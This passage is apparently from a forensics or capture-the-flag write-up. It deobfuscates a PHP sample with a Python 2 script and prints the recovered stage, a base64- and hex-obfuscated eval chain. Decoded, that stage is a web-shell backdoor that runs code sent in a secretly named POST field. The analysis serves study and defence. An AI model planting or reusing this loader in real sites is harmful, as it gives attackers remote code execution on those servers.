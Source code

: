 eval($do_me);
?>
{{< /codecaption >}}

Find an online tool to run this PHP code or re-write it in Python . My Python code:

{{< codecaption lang="python" title="Code re-written in Python" >}}
terms = ["M", "Z", "]", "p", "\\", "w", "f", "1", "v", "<", "a", "Q", "z", " ", "s", "m", "+", "E", "D", "g", "W", "\"", "q", "y", "T", "V", "n", "S", "X", ")", "9", "C", "P", "r", "&", "\'", "!", "x", "G", ":", "2", "~", "O", "h", "u", "U", "@", ";", "H", "3", "F", "6", "b", "L", ">", "^", ",", ".", "l", "$", "d", "`", "%", "N", "*", "[", "0", "}", "J", "-", "5", "_", "A", "=", "{", "k", "o", "7", "#", "i", "I", "Y", "(", "j", "/", "?", "K", "c", "B", "t", "R", "4", "8", "e", "|"]

order= [59, 71, 73, 13, 35, 10, 20, 81, 76, 10, 28, 63, 12, 1, 28, 11, 76, 68, 50, 30, 11, 24, 7, 63, 45, 20, 23, 68, 87, 42, 24, 60, 87, 63, 18, 58, 87, 63, 18, 58, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 17, 37, 63, 58, 37, 91, 63, 83, 43, 87, 42, 24, 60, 87, 93, 18, 87, 66, 28, 48, 19, 66, 63, 50, 37, 91, 63, 17, 1, 87, 93, 18, 45, 66, 28, 48, 19, 40, 11, 25, 5, 70, 63, 7, 37, 91, 63, 12, 1, 87, 93, 18, 81, 37, 28, 48, 19, 12, 63, 25, 37, 91, 63, 83, 63, 87, 93, 18, 87, 23, 28, 18, 75, 49, 28, 48, 19, 49, 0, 50, 37, 91, 63, 18, 50, 87, 42, 18, 90, 87, 93, 18, 81, 40, 28, 48, 19, 40, 11, 7, 5, 70, 63, 7, 37, 91, 63, 12, 68, 87, 93, 18, 81, 7, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 18, 17, 37, 0, 50, 5, 40, 42, 50, 5, 49, 42, 25, 5, 91, 63, 50, 5, 70, 42, 25, 37, 91, 63, 75, 1, 87, 93, 18, 1, 17, 80, 58, 66, 3, 86, 27, 88, 77, 80, 38, 25, 40, 81, 20, 5, 76, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 7, 88, 32, 45, 7, 90, 52, 80, 58, 5, 70, 63, 7, 5, 66, 42, 25, 37, 91, 0, 12, 50, 87, 63, 83, 43, 87, 93, 18, 90, 38, 28, 48, 19, 7, 63, 50, 5, 37, 0, 24, 1, 87, 0, 24, 72, 66, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 1, 87, 93, 18, 11, 66, 28, 18, 87, 70, 28, 48, 19, 7, 63, 50, 5, 37, 0, 18, 1, 87, 42, 24, 60, 87, 0, 24, 17, 91, 28, 18, 75, 49, 28, 18, 45, 12, 28, 48, 19, 40, 0, 7, 5, 37, 0, 24, 90, 87, 93, 18, 81, 37, 28, 48, 19, 49, 0, 50, 5, 40, 63, 25, 5, 91, 63, 50, 5, 37, 0, 18, 68, 87, 93, 18, 1, 18, 28, 48, 19, 40, 0, 25, 5, 37, 0, 24, 90, 87, 0, 24, 72, 37, 28, 48, 19, 66, 63, 50, 5, 40, 63, 25, 37, 91, 63, 24, 63, 87, 63, 12, 68, 87, 0, 24, 17, 37, 28, 48, 19, 40, 90, 25, 37, 91, 63, 18, 90, 87, 93, 18, 90, 38, 28, 18, 19, 66, 28, 18, 75, 70, 28, 48, 19, 40, 90, 58, 37, 91, 63, 75, 11, 79, 28, 27, 75, 3, 42, 23, 88, 30, 35, 47, 59, 71, 71, 73, 35, 68, 38, 63, 8, 1, 38, 45, 30, 81, 15, 50, 12, 1, 24, 81, 66, 28, 40, 90, 58, 81, 40, 30, 75, 1, 27, 19, 75, 28, 23, 75, 77, 1, 28, 1, 43, 52, 31, 19, 75, 81, 40, 30, 75, 1, 27, 75, 77, 35, 47, 59, 71, 71, 71, 73, 21, 4, 37, 51, 40, 4, 7, 91, 7, 4, 37, 77, 49, 4, 7, 91, 70, 4, 37, 49, 51, 4, 51, 91, 4, 37, 70, 6, 4, 7, 91, 91, 4, 37, 51, 70, 4, 7, 91, 49, 4, 37, 51, 6, 4, 7, 91, 91, 4, 37, 51, 70, 21, 47, 93, 8, 10, 58, 82, 59, 71, 71, 71, 82, 59, 71, 71, 29, 29, 47]

do_me = ""
for i in range(0,len(order)):
    do_me += terms[order[i]]

print do_me
{{< /codecaption >}}

Produces the following PHP code:
{{< codecaption lang="php" title="PHP code" >}}
$_= 'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9';
$__='JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7';
$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65"; // base64_decode
eval($___($__));
{{< /codecaption >}}
